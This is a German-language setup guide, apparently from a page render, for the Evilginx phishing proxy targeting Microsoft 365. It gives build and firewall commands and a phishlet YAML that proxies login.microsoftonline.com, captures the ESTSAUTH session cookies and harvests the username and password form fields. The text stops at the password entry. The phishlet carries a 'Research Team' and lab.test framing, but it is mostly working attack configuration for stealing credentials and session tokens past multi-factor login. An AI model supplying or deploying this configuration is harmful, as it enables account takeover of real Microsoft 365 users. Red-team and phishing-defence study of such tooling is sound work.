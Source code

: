 ### Evilginx Build Process
```bash
# Repository klonen
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2

# Binary kompilieren
make

# Ersten Start durchführen
./evilginx
```

### Firewall Konfiguration
```bash
# UFW Firewall einrichten
sudo ufw enable
sudo ufw allow 22/tcp    # SSH
sudo ufw allow 80/tcp    # HTTP
sudo ufw allow 443/tcp   # HTTPS

# IPTables für Port Redirect
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8443
```

## Phishlet Entwicklung - Microsoft 365

### Komplettes Phishlet: office365.yaml
```yaml
name: "office365"
author: "Research Team"
min_ver: "3.0"

proxy_hosts:
  - {phish_sub: "login", orig_sub: "login", domain: "microsoftonline.com", session: true, is_landing: false}
  - {phish_sub: "account", orig_sub: "account", domain: "microsoftonline.com", session: true, is_landing: false}

sub_filters:
  - {hostname: "login.microsoftonline.com", sub: "login", domain: "microsoftonline.com", search: "login.microsoftonline.com", replace: "login.lab.test", mimes: ["text/html", "application/javascript", "text/css"]}
  - {hostname: "account.microsoftonline.com", sub: "account", domain: "microsoftonline.com", search: "account.microsoftonline.com", replace: "account.lab.test", mimes: ["text/html", "application/javascript", "text/css"]}

auth_tokens:
  - domain: ".login.microsoftonline.com"
    keys: ["ESTSAUTH", "ESTSAUTHPERSISTENT", "SignInStateCookie"]

login:
  domain: "login.microsoftonline.com"
  path: "/common/oauth2/authorize"

credentials:
  username:
    key: "loginfmt"
    search: "name=\"loginfmt\""
    type: "form"
  password:
    key: "passwd" 
```